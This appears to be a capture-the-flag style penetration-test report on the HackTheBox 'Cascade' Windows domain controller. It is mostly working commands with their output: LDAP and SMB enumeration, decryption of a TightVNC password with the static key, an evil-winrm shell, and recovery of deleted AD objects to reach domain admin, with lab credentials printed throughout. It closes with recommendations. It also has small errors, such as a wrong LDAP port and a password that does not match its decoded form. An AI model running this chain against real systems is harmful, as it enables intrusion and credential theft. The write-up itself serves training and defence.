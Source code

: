 Table of Contents
***
**Executive Summary**
	Summary of results
**Attack Path**
	LDAP discovery and enumeration
	Authenticated SMB enumeration
	Lateral movement to interactive shell
	Administrative Privilege Escalation
	Escalation to Domain Administrator
**Conclusion**
	Recommendation
	Risk Rating
**Appendix: Vulnerability Detail and Mitigation**
	Unauthenticated LDAP enumeration
	Password attributes field in LDAP
	User Access control
	Weak/Static Key Encryption
	Password Reuse
***

# Executive Summary
***
### Summary of results


# Attack Path
***
## LDAP discovery and enumeration
Scanned the IP with nmap and discovered 13 open TCP ports. The automated scripts revealed the hostname of cascade.local.

Time ran: Fri Oct 28 23:31:06 2022
```bash
nmap 10.10.10.182 -sC -sV
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-10-28 12:31:16Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```
With LDAP open on port 2368 we checked if we could query LDAP.
```bash
ldapsearch -x -H ldap://10.10.10.182 -s base namingcontexts

Domain DC=cascade,DC=local
```
Proceeded to enumerate LDAP and gather usernames.
```bash
ldapsearch -x -H ldap://10.10.10.182 -s sub -b 'DC=cascade,DC=local' > ldap_anon

cat ldap_anon | grep sAMAccountName | awk -F": " '{print $2}' > usernames.ldap
```

Usernames.ldap
```txt
s.smith
r.thompson
j.wakefield
s.hickson
j.goodhand
a.turnbull
e.crowe
b.hanson
d.burman
j.allen
i.croft
```

Checked for any passwords stored within ldap by looking for unique values.
```bash
cat ldap_anon | sort | uniq -c | sort -nr
```

This revealed a cascadeLegacyPwd from r.thompson's user object
```base64
clk0bjVldmE=
```
Which when decoded is
```txt
rY4n53va
```

## Authenticated SMB enumeration
***
Listed all the files that r.thompson can view within smb
```bash
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva -M spider_plus
```
This user can view a vnc install.reg file within another user's folder.

## Lateral movement to interactive shell
***
When viewing the file there is an encrypted password.
```bash
cat VNC\ Install.reg 
��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"ExtraPorts"=""
"QueryTimeout"=dword:0000001e
"QueryAcceptOnTimeout"=dword:00000000
"LocalInputPriorityTimeout"=dword:00000003
"LocalInputPriority"=dword:00000000
"BlockRemoteInput"=dword:00000000
"BlockLocalInput"=dword:00000000
"IpAccessControl"=""
"RfbPort"=dword:0000170c
"HttpPort"=dword:000016a8
"DisconnectAction"=dword:00000000
"AcceptRfbConnections"=dword:00000001
"UseVncAuthentication"=dword:00000001
"UseControlAuthentication"=dword:00000000
"RepeatControlAuthentication"=dword:00000000
"LoopbackOnly"=dword:00000000
"AcceptHttpConnections"=dword:00000001
"LogLevel"=dword:00000000
"EnableFileTransfers"=dword:00000001
"RemoveWallpaper"=dword:00000001
"UseD3D"=dword:00000001
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
"DisconnectClients"=dword:00000001
"PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"=""

"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```
Decrypting with the static key.
```ruby
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"  
require 'rex/proto/rfb'  
Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
```

Plain text password of sT333ve2
Logging in with evil-winrm provides an interactive shell.

```bash
evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2
```

## Administrative Privilege Escalation
***
We enumerated smb again with the new credentials and found a Audit$ drive, which has an executable. Reverse engineering the executable reveals the password `W3lc0meFr31nd` for the ArkSvc user which has administrator privileges.

## Escalation to Domain Administrator
***
The ArkSvc user is a member of the recycle bin group which can read files that have been deleted.

```powershell
Get-ADObject -SearchBase "CN=Deleted Objects,DC=Cascade,DC=Local" -Filter
{ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *
```
There is a file that contains the password for tempadmin which is also the default admin password for the domain.
```
baCT3r1aN00dles
```

We then proceeded to login as the administrator account with winrm, which results in domain admin.

# Conclusion
***

## Recommendations
***
- Do not reuse passwords for admin accounts.
- Remove the cascadeLegacyPwd field from r.thompson and tempadmin from their AD objects
- Use a better vnc type as this one has a static password, so the encryption is useless.
- Do not have hard coded credentials for an encryption algorithm (Audit.exe)
- Why does s.smith need to be able to view the database?
- Have a stronger password policy and have rotations every 30 days.
- Disable winrm on all accounts that do not need it.

## Risk Rating
***
Overall there is a **high** risk identified from this report. There is a direct path for an external attacker to have full system compromise. There is very realistic that an malicious entity would be able to execute this attack through this attack chain. 